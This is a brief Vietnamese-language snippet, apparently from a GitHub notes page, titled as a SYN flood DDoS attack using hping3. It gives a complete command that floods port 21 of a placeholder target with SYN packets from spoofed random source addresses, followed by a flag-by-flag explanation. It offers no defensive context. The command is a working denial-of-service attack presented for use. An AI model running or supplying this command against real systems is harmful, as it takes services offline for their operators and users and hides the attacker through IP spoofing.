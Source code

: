 **Mô tả:** Tấn công DDoS SYN Flood bằng hping3

**Câu lệnh thực thi:**
```bash
hping3 -c 1000 -d 120 -S -w 64 -p 21 --flood --rand-source <ip-target>
```

- `-c 1000`: Gửi 1000 gói tin. 
- `-d 120`: Kích thước dữ liệu mỗi gói là 120 byte. 
- `-S`: Đặt cờ SYN trong gói tin TCP (mô phỏng kết nối TCP chưa hoàn chỉnh). 
- `-w 64`: Đặt kích thước cửa sổ TCP là 64. 
- `-p 21`: Nhắm đến cổng 21 (dịch vụ FTP). 
- `--flood`: Gửi gói tin nhanh nhất có thể. 
- `--rand-source`: Sử dụng địa chỉ IP nguồn ngẫu nhiên (spoofing). 
- `<ip-target>`: Địa chỉ IP đích của mục tiêu.

